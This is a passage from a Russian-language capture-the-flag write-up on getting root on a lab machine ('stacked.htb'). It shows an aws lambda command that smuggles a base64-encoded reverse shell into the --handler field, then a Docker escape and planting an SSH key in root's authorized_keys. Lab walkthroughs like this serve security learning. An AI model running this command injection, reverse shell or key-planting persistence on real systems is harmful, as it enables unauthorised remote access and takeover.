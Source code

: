 ![](../../../../.gitbook/assets/18.png)

У нас появляется много векторов атак. Поэтому можно попробовать пробросить шелл от рута с помощью параметра --handler:

```
$ aws lambda --endpoint=http://s3-testing.stacked.htb create-function --function-name 'func1' --role user --handler '$(echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45My85ODk4IDA+JjE="|base64 -d|bash)' --runtime nodejs10.x --zip-file fileb://index.zip
```

```
$ aws lambda --endpoint=http://s3-testing.stacked.htb invoke --function-name func1 out
```

![](../../../../.gitbook/assets/19.png)

### Получение рута с помощью другого образа докера:

Теперь можем посмотреть все образы докера и попытаться присоедениться к "другому" локалстаку:

![](../../../../.gitbook/assets/20.png)

И мы опять оказались в докере, но теперь мы можем прочитать root.txt, чтобы получить ssh-доступ от рута, нужно вписать свой SSH Public Key в /mnt/root/.ssh/authorized\_keys.
